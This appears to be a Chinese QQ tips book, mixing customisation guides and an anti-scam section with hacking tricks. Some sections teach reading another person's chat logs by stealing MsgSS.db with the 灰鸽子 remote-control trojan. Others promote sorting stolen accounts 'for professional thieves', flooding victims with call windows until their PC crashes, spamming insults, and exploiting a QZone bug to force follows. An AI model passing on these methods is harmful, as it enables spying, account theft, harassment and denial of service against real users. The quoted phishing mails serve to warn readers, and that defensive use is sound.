建立一个文本文档，把以上代码写入（图1），然后保存。并把格式由.txt改为.cmd，这样才能运行（图2）。输入对方的QQ号码，按回车即可。看，临时对话框弹出来了（图3）。

title后面为标题，echo后面为介绍，其他代码的意思是将输入的号码与以下地址组合：tencent://Message/?Uin=QQ号。

#### QQ心情秀

想不想让你此时此刻的心情以文字图片的形式展现在QQ秀上呢？赶快来设置一下QQ心情秀吧！http://qqshow.qq.com/emotion/e_main.shtml 为心情秀的设置地址。

QQ心情秀一共分为两种：心情秀和彩色心情（图1）。心情秀里只有一种样式可免费使用，其他的为红钻专用。彩色心情所有用户免费使用，提供了两种样式。

心情秀：点击进入，会打开输入文字的界面，输入你要显示的文字（图2），进行下一步选择心情背景。除了默认的心情背景，其他的都是要money的，有钱的可以考虑。一步一调整心情位置（图3），按方向键稍微调整一下即可，下一步就是保存了。

彩色心情：彩色心情和心情秀除了设置方面外，其他并没有什么太大的差异，我们主要来看一下彩色心情的设置（图4）。个人认为彩色心情还是比较好看的，可以在心情涂鸦中选择不同的排列样式，当然我们也可以自己排列，一共可以输入1-77个字符，特殊字符无法显示。在“变换风格”中可以在两种风格中切换，两种都是比较漂亮的（图5）。也可以使用“插入表情”插入你喜爱的QQ表情（图6）。赶快保存，体验一下QQ心情秀的魅力吧！


#### 远程查看聊天记录

如果你看过工具篇的“QQ聊天记录偷窥器”的内容，我相信你已经对查看本机的QQ聊天记录有了一定的了解。但是你有没有想过要查看别人电脑上的聊天记录呢？好，下面我们就来研究一下怎么偷窥别人的记录。

打开QQ的目录，找到想要查看聊天记录的QQ号码。其实MsgSS.db文件就储存着当前号的聊天记录，User.db文件储存着当前号的好友信息（图1）。这样一解释，你该知道下一步怎么做了吧？


既然这两个文件储存了聊天记录的相关信息，那么我们的关键就是取得MsgSS.db文件了。可以使用远程控制软件，例如灰鸽子……在对方的电脑找到他的QQ安装目录，然后找到你要查看的QQ号码对应的文件夹，再把MsgSS.db复制到本机上来。如果你不会远程控制，也可以另寻它路，不论什么方法，只要能搞到MsgSS.db这个文件就好了。我们在本地电脑新建一个文件夹，以你要查看的QQ号码为名，然后把MsgSS.db复制到文件夹中。


准备工作就这样完成了，下面就像查看本机聊天记录一样，在打开目录中找到你新建立的文件夹的上一级目录，就会在号码框看到你要查看的QQ号码了，打开即可查看（图2）。

#### 一键登录QQ

每天登录QQ号是不是有点烦？特别是当我们有好几个QQ号的时候，输入那么长的密码要浪费很多时间。下面我们就来制作一个一键登录QQ的小程序。

新建一个文本文档，写入以下内容并将“QQ.exe所在的路径”改为你安装的QQ路径；“QQ号码”处填写你要一键登录的QQ号码，“QQ密码”当然是填写你的QQ号码对应的密码了，如下：

```vbscript
Dim Program1
Program1="QQ.exe所在的路径"
Set WshShell=createobject("wscript.shell")
Set oExec=WshShell.Exec(Program1)
WScript.Sleep 2000
WshShell.AppActivate "QQ登录"
WshShell.SendKeys "{TAB}"
WshShell.SendKeys "QQ号码"
WScript.Sleep 200
WshShell.SendKeys "{TAB}"
WshShell.SendKeys "QQ密码"
WScript.Sleep 200
WshShell.SendKeys "{ENTER}"
```

填写完毕，然后另存为.vbs文件。这样一来，只需要双击这个文件就可以直接登录你的QQ了，是不是比原来方便多了？如果你还嫌麻烦，可以右键这个文件发送到“桌面快捷方式”，然后对这个快捷方式右键打开属性，定义一个快捷键，例如F6（图1），下次想要登录的话只需要按一下F6就可以直接登录QQ了。如果你需要开机即登录QQ，只需将此文件拖到“开始—程序—启动”中，以后开机，你的QQ将会自动登录（图2）。

注意，使用此方法一定要保证你的电脑是个人电脑，其他人不得随意使用，不然密码很容易泄露！


#### QQ不怕重装

为什么QQ重装后很多收藏的图片都没有了，很多QQ好友的信息还要刷新才可以显示呢？怎么可以让QQ重新安装后还像原来的一样？不要着急，下面我就教给大家。在安装新版QQ之前，先在旧版本QQ的安装目录里面找到以你的QQ为名的文件夹，把它复制出来，然后再卸载。安装完成新版QQ之后，再把以你的QQ为名的文件夹复制进去就可以了。

## 防止QQ诈骗

自古以来，少不了欺骗这一个行当，而现在正是网络骗子横行的时代。很多网友对电脑方面的研究不够深入，从而被骗了很多QQ用户！下面我们就拿几个最典型而且最容易使人上当的例子以作警示！

#### 一、防范骗取QQ号码

### 1、冒充腾讯网站，骗取用户密码资料

**行骗伎俩：**

亲爱的QQ空间用户：

感谢您一年来对QQ空间的支持。在新春来临之际，我们祝您猪年如意，心想事成！在过去的一年，因为有您的关注与支持，我们取得了以下的突破与成绩：2007年QQ空间使用人数突破5000万用户；黄钻用户突破100万用户；QQ空间主页http://qzone.qq.com排名上升至2000名。

为此，QQ空间在2007年2月举行了抽奖活动，您的QQ空间被评为最佳人气、最佳效果、最佳质量、最佳信誉奖之一奖项，为此将免费奉送您QQ空间黄钻会员，已收费开通黄钻的用户将不再收费，我们将在您回复后的24小时内开通！领奖方式：请您在打开该邮件的24小时内回复该邮件进行确认，回复方式：QQ号码+QQ密码+QQ空间名称+任意四位数字。其中任意四位数字为用户您自行设置，在您进行开通查询时提供的验证码！您的关注是我们不断成长的动力，QQ空间有您更精彩！

QQ空间团体 敬上

然后再下面就是行骗邮件的详细内容。不少用户如果真的按照上边所讲的那样，将自己的QQ号和密码发到这个邮箱的话，那可就是姜太公钓鱼，愿者上钩了！

### 2、通过QQmail升级，传播木马病毒

**行骗伎俩：**

亲爱的用户：2006年统计已有3万多QQ用户因QQ邮箱过于简单被黑客暴力破解而被盗。为确保QQ用户的安全性，请立即下载安装更新程序（本程序还可保护游戏账号不被黑客记录）。您的关注是我们不断成长的动力，QQ邮箱有您更精彩。QQ邮箱团队 敬上

然后再下面就是行骗邮件的详细内容。注意：无论他的邮箱地址为多少都不要随意相信，因为有软件可以冒用10000@qq.com邮箱！

### 3、意外的中奖消息传播木马病毒，骗取QQ号码

QQ信息行骗实例：

- 2003-08-22 16:09:47 971XX（QQ送奖员）  
  恭喜您中了本公司幸运抽奖，请选择奖品（50枚Q币）（会员卡一张），请输入您正确的QQ号和密码，以及你想要的奖品。
- 2004-04-22 16:09:47 1399992XX（腾讯公司）  
  请把您的手机号以及您的详细地址发给我，以便于我们联系。您的奖品是由QQ公司提供的价值2880元的家用电脑一部，以及由移动公司提供的100小时的话费卡一张。
- 2004-04-13 21:24:28 1308811XX（QQadmin）  
  您好，我是腾讯公司的职员，您的QQ已中奖，您可以收到我们公司送您的QQ两个和3000元手机费，但是您必须得有手机才行，钱和QQ会发到你的手机里，只要您能收到我们公司发给您的QQ验证码再发给我就可以了，系统就会自动发到您的手机上。客服热线：0755-83765566

- 邮件附件或QQ信息内容中的链接是木马程序，一经运行，你的QQ密码就会丢失。
- 要求用户提交个人密码等资料，或者以某个人名义向你送出号码等礼品，借机骗取你的密码。

### 4、发送虚假邮件骗取QQ资料

具体案例：  
最近接到用户反馈，最近有人假冒“腾讯公司”名义，利用电子邮件方式向广大QQ用户和网友发送虚假信息，大意为腾讯公司针对部分号码实行实名密码保护，要求用户提供密码保护的所有资料。

**行骗伎俩：（以下为行骗邮件的详细内容）**  
尊敬的QQ用户您好：

首先，感谢您对我们的支持与关爱。在过去的8年里，腾讯和广大的朋友们一起一步步成长，一起成熟，一起努力，也一直坚持，才有了今天的成绩！2005年我们会提供给大家更方便实用的服务和更贴心的沟通体验！

由于QQ密码保护服务在功能上的不完善，加之部分用户遗忘了早期注册的密码保护资料，致使密码丢失后不能及时取回。为了解决日益严重的号码被盗问题，最大限度避免木马病毒等给QQ用户带来的伤害，我们将在部分号码段试行新的实名密码保护系统（SNPS），新系统的推出将极大增强您使用号码的安全性。会在现有密码保护基础上增加以下功能和特性：

1. 发现QQ号码被盗后，使用新的实名安全识别码在第一时间可以把QQ号码锁定，防止盗号者删除您的好友、更改号码资料，及时保障您QQ个人账户内Q币和游戏币不被转移和窃取盗用。
2. 新系统采用最新的动态特征码技术，由于算法的不可逆加密，彻底杜绝暴力破解等其他因素导致的QQ号码密码被盗。即使您遗忘了密码保护的回答，找回密码邮箱已停用，仍可以轻松取回密码。
3. 简化了密码被盗后的取回流程。只一个步骤便可以把密码轻松重设，同时还可以对密码进行权限管理，操作简单快捷，让您更放心。

新系统最后调试期将在部分号码段试行。如您收到此封邮件，我们会在确认您是号码的真正主人后，由系统回执给您号码唯一对应的实名安全识别码。

请确认以下填写内容的准确性和详细性，这将是我们判断该号码属于您的重要依据。

- ※QQ号码：
- ※真实姓名：
- ※身份证号码：
- ※联系电话：
- ※详细地址：
- ※手机号：
- ※QQ原始密码（申请该QQ号时的第一个密码）：
- ※QQ历史密码（有多少提供多少，请用/隔开）：
- ※证件类型（身份证/军官证/护照/其他证件/电话号码）：
- ※证件号码：
- ※提示问题：
- ※问题答案：
- ※安全信箱：

**注意：**

1. 待填写完毕（必要时复制表格）发送到我们专门设立的回执实名安全识别码的加密邮箱：SNPS@qq.com。资料确认后系统将及时对您进行回执。
2. 填写此表格并成功递交，即表示您保证以上所填内容完全准确，并同意任意一项内容失效均有可能导致丧失权利。请再次确认并务必保证以上资料的准确性。如果您的资料不正确，我们将不做任何回执也不再另行通知。

qq.com 腾讯公司 1998-2005  
客户服务热线：0755-83765566（24小时全天候真诚为您服务）

### 5、发送虚假所谓密码保护系统升级内容邮件骗取QQ资料

#### 二、防范骗取开通服务

#### 1、嫁接短信，诱骗梦网密码开通服务

具体案例：  
部分省市的用户可以用手机移动梦网的密码来开通网站服务，行骗者利用嫁接短信的方式，在不被用户发觉的情况下，引导用户修改梦网密码并骗取该梦网密码，通过骗取的梦网密码开通腾讯公司或其他网站的服务。

- 行骗伎俩：
  1. 行骗者（QQ：3211xx）使用移动QQ给用户发短信，发送号为“170003211xx”（3211xx为该骗子的QQ号码），内容为：“恭喜你成功订购了移动宝典每月将收取服务费30元，退订请回复86（在24小时内退订不收取任何费用）。”
  2. 行骗者登录移动梦网，输入用户手机号，点击“忘记密码”，此时梦网会自动下发“尊敬的用户，您的密码是******，欢迎登录移动梦网”到用户手机。
  3. 用户收到行骗者发的消息时会直觉性地想取消服务；然后再收到梦网下发的取回密码消息，还有些莫名其妙。
  4. 行骗者（QQ：3211xx）再次使用移动QQ给用户下发短信，发送号为“170003211xx”，内容为：“确认关闭此服务请尽快回复我们发给你的验证码，感谢您的使用！”
  5. 用户会想当然地回复刚收到的梦网密码，行骗者获得。
  6. 行骗者用梦网密码开通我们网站或其他网站的服务。

## 2、冒充系统广播，骗取手机开通服务

**具体案例：**

某用户的手机号于10月31日收取来自977702XX774或1700002XX774的下行信息：“恭喜你成功订阅了XXX业务，每月将收取服务费30元，退订请编辑DQ01#EXIT80发送至921X”。

**行骗伎俩：**

骗子通过QQ客户端的短信渠道下发信息给用户，目的是骗取用户的手机费用；短信内容中的“DQ01#EXIT80发送至921X”实际是某网站订制某游戏业务中获取秘籍的指令，目的是让用户收到此信息后，以为自己曾订制过某项业务，为了不再被收费用，急急忙忙按短信内容发送“退订”；此时用户正中陷阱，原以为是退订业务，反而变成订制业务，导致自己的手机费用受到损失。

#### 三、防范骗取网站点击率

##### 假冒腾讯网站，骗取浏览量

**具体案例：**

目前许多冒充腾讯公司的网站，打着送Q币或赠送QQ号的旗号，要求用户在对话框输入QQ号码以及密码。网站地址多为有qq字样，点击进入页面有仿制QQ公仔形象，页面正中有明显要求输入QQ号、密码、验证码的对话框。目前此类网站多为骗取用户点击率，但将来有可能发展为盗号的一种手段。

**行骗伎俩：**

此网站要求用户输入QQ号码和QQ密码后，此时是没有进行任何验证的，或验证码框形同虚设，无任何验证作用。因为这些网站是无法取得腾讯任何信息，如果用户在此输入QQ号码和密码后，这些信息将被他人收集，从而有可能盗取您的QQ号码。

这种欺骗方式几乎随处可见，每天无论群里，还是好友上几乎都会有这样的垃圾消息。大家要记住：天下没有那么多免费的好事。

## QQ美化系列

#### 一、更换QQ托盘图标

想不想让你QQ右下角的托盘图标也更一番个性，下面就跟我去更换一个既漂亮又个性的托盘图标吧！

我们需要用到一个软件ResHacker，使用此软件打开QQ根目录下的QQRes.dll文件（图1）。打开“图标组”，托盘图标就位于这里面，下面是图标的对应文件名。比如我们想要修改性别男在线时的图标，就找到1782（图2）。打开后会出现一个名为2052的文件，右键鼠标选择“替换资源”（图3），在出现的新窗口（图4）中点击“打开新图标文件”，选择一个你喜欢的ico图标（必须为.ico格式的）。选择好之后点击“替换”就可以了。


| 男 | 女 | 状态 |
|---|---|---|
| 1776 | 1784 | 离开 |
| 1778 | 1786 | 离线 |
| 1780 | 1788 | 隐身 |
| 1782 | 1790 | 在线 |

## 第一章 玩转你的QQ


#### 二、个性登录窗口

QQ的个性登录窗口当然是少不了的美化部分，属于自己的登录窗口肯定会让人羡慕不已的。下面大家可要仔细来看一下，相信马上各位也会打造一个属于自己的登录窗口的。我们需要的软件同样为ResHacker，聪明的你是不是又想到要修改文件了。对，这次要修改的是LoginCtrlRes.dll，此文件包含登录窗口的信息。打开后如图6所示。


替换成功后，覆盖QQ中的原文件，然后重新开启QQ，如图5，那个“骨”字就是我替换后的图标了，是不是比原来个性多了？


### 1、更换背景图片

位图中的963是登录窗口上部分的图片，16050是下部分的图片。这里分别装有默认的图片，你肯定会很熟悉的。我们要做的就是把这两张图片替换为自己的图片。首先要注意图片总大小要是326*217（包含上下部分），利用QQ截图就能轻松截取到此大小的图片，也可以使用图像处理软件改变为326*217，再使用QQ截图，分别截出上部分326*49和下部分326*168（格式要BMP的）。调整好图片就可以进行下一步了。

如果你看过前面的文章，对替换步骤一定非常熟悉了吧。同样的方法，用替换资源，把自己做好的图片替换默认图片。963替换截取的上部分图片，16050替换截取的下部分图片。保存，然后替换QQ目录下的原文件。重新启动QQ，如图7，是不是比原来个性多了？


### 2、更换版面

看惯了QQ的登录版面，可能会觉得老套，那么我们就来换一下吧。还是在LoginCtrlRes.dll中，找到对话框中的450，打开后会出现如图8所示的窗口。看到这个你应该很熟悉吧，这就是QQ的登录窗口了。我们可以任意来修改这上面的控件，但是不能删除，如果删除控件，QQ运行时会出现错误。在控件上点右键，选择编辑，即可修改相关内容。如果想要删除不必要的控件，比如“申请号码”“忘了密码？”……可以把它们拖到右下角的空白处隐藏起来，然后自己重新排版。弄得简洁些，让背景图片显示出来。设计好之后一定要记住点击编译脚本（图9）。保存，现在重新开启QQ，看，是不是有了很大的变化（图10）。

### 3、更换标题

标题在字符串表中的104里，如图11，需要更改的就是引号内的内容。这个修改了也需要编译脚本，然后就生效了（图12）。

#### 三、QQ程序也来美化

既然QQ的其它部分都能美化，那么QQ的主程序当然也少不了。修改的方式其实都现很多不为人知的小秘密。比如对话框中的1897就是QQ好友的资料。还等什么，赶快自己去发现一下吧！

- 改等级图片：星星、太阳、月亮（位图 Bitmap: 1684）
- 改上线提示，应该包括按钮（位图 Bitmap: 1407—1412）
- 改系统新闻（位图 Bitmap: 1668）
- 手机摄像头等好友面板的小图标（位图 Bitmap: 1673, 1674, 1675）
- 超级语音、视频聊天等（位图 Bitmap: 1848—1850）
- 隐身绿叶（Bitmap: 1840, 1859, 1865）
- 登录过渡画面：
  - 背景位图（Bitmap）131, 1710, 1733至1744
  - 按钮位图（Bitmap）145, 9097（关闭）, 9098, 9099（最小化）
  - GIF动画（START_GIF）1704

其它的当然还有很多，只要你仔细看一下就会发现。

#### 四、标题栏显示自己的大名

我们先来看一下如图13所示的画面，细心的你应该注意到不同了吧。对，就是QQ标题上的不同！看到这里，你或许开始羡慕，如果自己也能把QQ标题栏改成自己的名字该多好。不要着急，下面就为大家介绍怎么修改标题栏，让自己的大名显示在QQ上！

找到QQ的安装目录，在桌面的QQ图标上点击右键，点击“查找目标”（图14）。在目录QQ\New Skins\QQ2007\中找到BackgroundTitleLeft_Old.bmp（图15）。这个文件就是2007beta4中标题栏对应的文件。简单说，修改这个图片就是修改标题栏。

下面使用图像处理工具稍微修改一下就可以了，也可以在本书提供的文件上直接用系统自带的画图工具加入你的大名！修改之前要注意备份，修改后覆盖原文件，再上QQ就会改变了。


#### 一、点亮邮箱图标

现在的QQ邮箱图标是需要点亮才会显示的，而现在很多人找不到点亮图标的位置，下面就跟我一起去点亮吧。

打开邮箱，找到邮箱设置（图1），在最下面就会发现点亮图标的选项，选中“在QQ中点亮邮箱图标即可”（图2）。如想取消，我想你也会了吧。


#### 二、邮箱登录状况

从QQ邮箱的登录状况我们可以轻松看出自己邮箱是否被其他人恶意登录，是防止信息泄露的重要手段。登录 http://service.mail.qq.com/cgi-bin/static_login，登录你的QQ邮箱即可进行查看（图3），如果发现IP地址与自己不符，就说明有其他人在登录你的邮箱，这时需要赶快采取相应措施。


#### 三、背景音乐

发送邮件的时候点击“背景音乐”（图4），在网上找到需要添加的音乐，把音乐地址填写进去，确定即可。


#### 四、等级划分

当用户长期使用QQ邮箱，就会积累到一定的经验值。经验值是指该用户以往所有积分的累加值，积分可以通过消耗减少，但经验值不会减少。当经验值累计到一定分值，就可以获得相应的等级。等级分别由奖牌、奖杯、皇冠来表现（图5）。

| 等级 | 经验值范围 | 图标 |
|---|---|---|
| 1 | 4分-20分 | 级别图标 |
| 2 | 24分-50分 | 级别图标 |
| 3 | 64分-140分 | 级别图标 |
| 4 | 144分-300分 | 级别图标 |
| 5 | 304分-620分 | 级别图标 |
| 6 | 624分-1260分 | 级别图标 |
| 7 | 1264分-2520分 | 级别图标 |
| 8 | 2524分-5040分 | 级别图标 |
| 9 | 5044分-10000分 | 级别图标 |
| 10 | 10004分-19600分 | 级别图标 |
| 11 | 19604分-38200分 | 级别图标 |
| 12 | 38204分-74200分 | 级别图标 |


#### 五、漂亮信纸

是不是希望写信的时候告别那张空白如纸的背景？那么我们就来换张漂亮的信纸吧！进入写信的页面，在右边切换到信纸，一共有四页供我们选择，我们可以挑选自己喜爱的信纸（图6），这样在电子邮件中即可看到我们的新信纸了，是不是比原来漂亮多了（图7）？


#### 六、邮箱快捷键

快捷键的使用可以极大地方便我们的操作，特别适合工作繁忙的用户。支持全屏快捷键为 Ctrl+Alt+D。

- Ctrl + ↑ 选择上一封邮件
- Ctrl + ↓ 选择下一封邮件
- Enter 阅读选中的邮件
- Ctrl + → 阅读上一封邮件
- Ctrl + ← 阅读下一封邮件
- Backspace 返回邮件列表

#### 七、加锁“文件夹区域”

“文件夹区域”是由“我的文件夹”“POP文件夹”以及“我的记事本”三部分组成。加锁即对这三部分进行保护，让你的邮件和记事本更加安全。

在POP文件夹上点击管理，即可在下面看到为“文件夹区域”设置加锁保护，让您的邮件更加安全。我们点击进入设置（图8），输入加锁密码确定，将会看到图9所示的提示，说明加锁成功。要想取消，方法类似。


#### 八、邮箱独立密码

我们先来认识一下“独立密码”，它的功能主要作用包括：

1. 通过QQ可以一键进入邮箱，如果您担心离开座位时别人可能会偷看你的邮件内容，那么可以使用“独立密码”功能来保护。
2. 万一QQ被盗号，虽然QQ密码保护可以保证QQ和邮箱不会丢失，但在取回前，盗号者可能会看到您的邮件内容。如果您非常担心邮件隐私被泄露，那么可以使用“独立密码”功能来保护。

在邮箱设置——邮箱安全中找到“设置独立密码”，进入即可设置（图10），输入密码，选择保护模式，确定后即可成功应用（图11）。如要取消，则需打开取消独立密码，然后输入原密码确认即可（图12）。


#### 群会员也有特权

腾讯对会员的待遇还真是不低，这不，在最新的版本中又对会员功能作了加强。现在QQ会员在群里可以享受红色昵称、排名靠前的特权，而且QQ会员可以群内无限制贴图（非会员在群内每天限贴图5次）。

这里着重为大家介绍的是会员提升群人数上限的功能（普通群的免费人数上限为100人）。这个功能可能是鲜为人知的，但是确实实用，能省不少money呢！下表为会员提升人数上限的对应规则，当然，会员等级越高就越香。


| 会员等级 | 免费提升人数上限 |
|---|---|
| VIP1 | 上限10人 |
| VIP2 | 上限20人 |
| VIP3 | 上限40人 |
| VIP4 | 上限60人 |
| VIP5 | 上限80人 |
| VIP6 | 上限100人 |

1. 通过Q币充值方式增加的高级群人数（1QB/人），可与此总共免费的人数上限累加，但最高总上限不能超过200人。
2. 会员群上限一旦激活，此群将不能再进行转让，因会员群的免费上限人数由不同的会员等级对应，转让双方的群主身份不匹配会带来系统问题及安全隐患。请根据您的实际需求进行选择。

说了这么多，你可能还没找到升级的地方呢。别着急，跟我来。首先你必须要是要升级群的管理员，然后打开你的群的群空间（图1）。在群空间的左下方看到会员超级群特权，然后点击激活群上限即可（图2）。

#### 新版泰国QQ英文版

我们平时使用的QQ都是简体中文版，那想不想弄个外国版的QQ，换换口味呢？腾讯公司将业务扩展到了泰国，新版的泰国QQ就给我们提供了这样的好机会！功能和我们的2005版差不多，全部是英文的，没英语基础的就算了。

该QQ和简体中文版的QQ并非一个数据库，所以和我们平时使用的QQ是不相通的。使用新版的泰国QQ，注册即是8位号，并且还是会员，可以建群，名字也是红色的。没有当过会员的朋友去体验下哦。

首先我们需要安装软件，如图1，就像我们平时安装的QQ一样。安装完毕，桌面即会出现“SanooK! QQ”，这就是泰国QQ了。打开登录界面，如图2，点击“Register”申请账号，如图3，选择“Register New QQ No.”下一步，然后出现如图4所示的界面，在这里填写资料，以后一直下一步，一直到如图5所示的界面。这里是一个关键，我们需要用到泰国代理才可以申请，选择“Use Proxy Server”，“Proxy Type”选“Http Proxy”。下面登录 http://www.ipbbs.com/，随便找一个泰国的代理，“Proxy Server Address”中填入代理IP，“Port”内填入端口，点下一步就可以申请成功了，如图6，“13103476”就是我们的泰国QQ号了。

有了泰国QQ号之后，就赶快登录泰国QQ享受一下吧。登录的时候就不用代理了，如图7，界面很熟悉吧。先添加几个好友，如图8，他们也是等级制呢。和他们聊天用汉语他们可听不懂，就借这个机会练习一下英语吧，如图9，和我们平时的聊天操作上没什么区别！以下是几个外国版本QQ的主页，感兴趣就去了解下吧：

- 日本版本 QQ JAPAN: http://www.qqjapan.com
- 泰国版本 Sanook! QQ: http://qq.sanook.com
- 非洲版本 QQ Africa: http://www.qqafrica.com


#### QQ号码分析器

你是不是盗过很多QQ号呢？你原来申请过很多QQ号么？你手上如果有许多QQ号，想在里面挖掘一些靓号，换个号去看是不是很麻烦？我们现在完全可以使用QQ号码分析器来代替我们搜寻靓号。工具运行后的界面如图1所示，首先读取我们的号码，如图2。把我们的号码写入一个文本文档，每行一个，例如：12345----5353132454（大部分盗来的QQ号直接就是这个格式的，这个软件更方便了盗号）。读取完毕后首先软件会自动排除重复号码，如图3。我们也可以点击“显示……”


“所有数据”来看我们导入的所有号码，并且可以取消显示密码。下面就可以搜索这里面的靓号了。在右边“常规搜索”中选择你要搜索的靓号种类，建议你全选。然后按“筛选”，程序就会自动分析了。

在超短的时间内，程序就已经分析完成了，如图4所示为分析结果。每个类型的号码对应分析结果。中间是分析后得到的号码，下面是总数统计。怎么样，很方便吧。可以很简单地查询到“回旋号”“连号”“AB号”“不带4的号”……很适合职业盗号的朋友。

同时在“模式匹配”中还可以自己定义靓号来搜索。比如要查找8位ABAB结尾的号码45617878，可以输入模式“????ABAB”来进行查找，是不是也很方便呢！查号完毕，还可以直接把搜索的结果保存下来。赶快去为你盗来的号分类吧！

#### QQ换音大师

听惯了MSN的声音，想把QQ的声音换作MSN的声音？或者QQ的声音听腻了，想换个其他的个性声音？这可以么？没问题，我们找QQ换音大师来帮我们这个忙！

安装软件，打开程序，界面如图1。程序启动时会自动检测QQ是否开启。如果没有开启的话，可以稍后开启QQ。随便我们的喜好，可以让QQ使用MSN声音，也可以让MSN使用QQ声音，只需点击鼠标即可完成。如果不喜欢，还可以还原。并且这款程序为我们提供了五个内设风格套餐：“山村静夜”“高山流水”“鸟语花香”“烈火金刚”和“怒海狂涛”，点击相应的按钮，QQ音效立即改变！一边聊天，一边陶醉于鸟语花香，的确是一种不错的享受。

如果以上这一切还没有让你满意，那么还可以亲自选择自己喜欢的声音。最右边是QQ现有的声音，我们单击就可以试听，中间是供我们选择的其他声音。如果碰到自己喜欢的，选中右侧你要替换的声音，双击中间你喜欢的声音就可以了。

## 第二章 菜鸟的QQ工具箱

如果这里提供的声音还是不够满意，那我们还可以自己添加新声音，点左边的“添加声音”，如图2，选择wav格式的音频文件就可以了。我们还可以通过“录音”功能，如图3，自己录制自己的个性声音。对着麦克风讲话唱歌，完毕后点击“停止录音”，录下的文件会自动保存在左边新声音列表框内的“我的录音”分类下。

如果换音无效，可使用此软件修复一下，点击右上角的按钮，按要求输入你的QQ号（图4），即可看到弹出确认提示（图5），确认即可。

小知识：“X:\Program Files\Tencent\QQ\”（X代表安装盘符）下的sound文件夹，这里有七个WAV格式的音频文件，QQ声音就是从这里发出来的。msg.wav为消息到达时的提示音，system.wav为系统消息提示音，Global.wav为好友上线时的声音，folder.wav为组之间进行切换时的声音，call.wav和ring.wav为拨打QQ电话时的声音提示，InputAlert.wav为鼠标声音。

当然，我们完全可以通过手动更改这里来达到更换声音的目的。

### QQ减负器

随着QQ功能的增加，所占用的系统内存资源也是越来越大，这为我们带来了许多不便。既然这样，那我们就自己来为QQ减减负吧！

其实QQ里有许多功能对于我们来说都是可有可无的，QQ减负器就可以把这些多余的功能删除掉。打开QQ减负器，如图1。首先找到QQ的目录，可以浏览选择，如果不知道目录，可以在QQ快捷方式上通过鼠标右键查看属性找到，如图2，起始位置便是目录。填好后选择加速处理就可以了。此时程序开始自动帮你删除不必要的文件，下面的“处理日志”中为删除过程，如图3。

这样以后再登录QQ时，速度就会提升了，而且释放了许多硬盘空间，确实很实用。

### QQ精灵

QQ聊天怎么能缺少一款称心实用的伴侣工具呢，QQ精灵7.0就是一款不可多得的多功能伴侣小工具，其运行后的界面如图1。

这个程序看起来虽然很小，但“麻雀虽小，五脏俱全”，它为我们提供了许多实用的功能。比如QQ强聊、QQ各种查询、QQ业务咨询等，还能显示IP地址呢。此工具用起来也非常简单，那么我们就来使用一下看看吧。

- 1. **QQ强聊**：打开QQ，输入对方的QQ号码，然后按强聊，就会出现如图2所示的聊天窗口。现在我们就可以和对方聊天了，即使你没加他（她）为好友。
- 2. **截图**：此功能相当方便，不用登录QQ即可进行截图，此功能是从QQ上分离出来的，因此与QQ的截图功能无异。
- 3. **QQ状态查询**：输入要查询的QQ号，然后“查询”，不用登录QQ就可以轻松地查询对方的状态，是一个不错的选择。
- 4. **业务办理**：常用的各种QQ收费业务在这里都有，便捷地直达办理地址（图3）。
- 5. **查询QQ秀**：输入要查询的QQ号码即可查询（图4）。
- 6. **激活QQ**：使用此功能可以快捷地激活多个QQ号码（图5）。
- 7. **音速访问**：通过输入好友的QQ号码，然后选择相册、家园、空间、拍拍店……就可以直接访问了（图6）。
- 8. **QQ电台**（图7）：可以通过电脑上的播放器直接收听QQ电台（图8）。
- 9. **QQ音速资料**：输入QQ号码和服务器区即可。
- 10. **财富与三钻**：输入QQ号即可查询开通情况（图10）。
- 11. **QQ旋风刷分**：此功能用于开通QQ旋风，每天使用一次，在空白区域右键鼠标，选择“使用QQ旋风下载全部链接”即可，每天最多50分，下载完后，删除下载后的文件即可（图11）。
- 12. **QQ软件**：QQ的常用软件可以通过这里知道下载地址，非常方便（图12）。
- 13. **QQ轰炸器**：打开QQ的聊天窗口，点击语音，QQ窗口即可弹向中间。现在使用该软件截取坐标。在发起语音处按F9，即可截取到开始的坐标，然后在视频结束处按F9截取结束坐标（图13）。坐标设置完成后，取一个时间，时间设置为1就可以。然后开始，即可让对方不断弹出视频窗口，如果电脑配置差，不久就会死机。要想停止按F10即可（此工具不能使用视频攻击，只能语音攻击）。

### QQ空间强制关注代码生成器

你的QQ空间被别人关注一定是一件非常高兴的事情，但是你想不想让所有访问过你QQ的用户都来关注你的QQ空间呢？

QQ空间强制关注代码生成器就可以让所有观看你QQ空间的人都自动把你的QQ空间加入到他的QQ空间“好友收藏”里面。打开程序，如图1所示。用法非常简单，输入你的QQ号码，然后点击“生成代码”，就会在下面方框中出现你需要的代码了。

然后把这些代码复制到你要发表的日志中就可以了。下面就等着别人访问你的空间，然后在不知不觉中关注你的空间吧。

注意：这个其实是利用了QQ空间的一个BUG，使用时间可能会受限，如果腾讯修补此漏洞，则此程序将不能使用！

### QQ聊天机器人

如果你是一个聊天新手，打字速度又很慢，还想多交几个网络知音，为何不尝试一下QQ聊天机器人。这是一款QQ自动聊天工具，支持最新版本的QQ软件，软件的界面如图1所示。

此软件可以自动发送多种类型的语句，也可以通过双击来选择自己需要的语句自定义发送。通过常用语句我们可以实现最基本的简单聊天。可以把“频率”设置为“每6秒自动发送一次”，然后选择循环模式，打开你要聊天的好友，按“发送”，此软件就会实现几句日常用语，并自动答问。如果你感觉这里面的语句不够好的话，也可以自己来编辑一套自己的聊天方式。每一行写一句话，写好后选择“保存编辑”就可以了，如图2。

如果自动模式不合你意，你也可以通过双击鼠标左键，手动发送语句。有了它，聊天将不再会是麻烦事了，希望你能借助这个功能交遍天下朋友（其实这个功能也能打发那些你不想和他们聊天，却又磨不开面子的人）。同时在“语句设置”中有爱情语句、赞美语句、精彩外语等多种语言格式，方便我们在聊天的时候能应对自如，和对方聊天聊地，让自己自由掌握聊天的主动权，不懂外语也能和别人使用外语交谈（可以结合前面介绍的泰国QQ使用）。打开聊天窗口，双击选中的语句就可以发送。对待仇人，我们可以设置多个骂人的语句，把“频率”设置为“每1秒自动发送一次”就可以对仇人发动语言攻击，相当于一个消息攻击器，如图3。

### QQ奇形异字

QQ个性资料总是那么引人注目，而个性总是展现在文字上，你有没有因为资料里的文字不够个性而发愁呢？不用着急，我们自己来打造奇形异字！

QQ奇形异字这款软件就能帮我们这个忙，简单的操作，实用的功能。下面我们就来领略一下它的魅力吧！打开软件，在上边的文字框输入你要转换的文字，输入完成后点击“转换”，马上转换完成（图1）。我输入“黑客X档案——QQ宝典——我喜欢”转换成功后为“嫼愙X檔案——QQ寳典——莪囍歡”，是不是很COOL！

注意哟，这个转换器并非简体和繁体的转换，只是字形相近的字的转换而已。

### 冰城QQ刷屏器

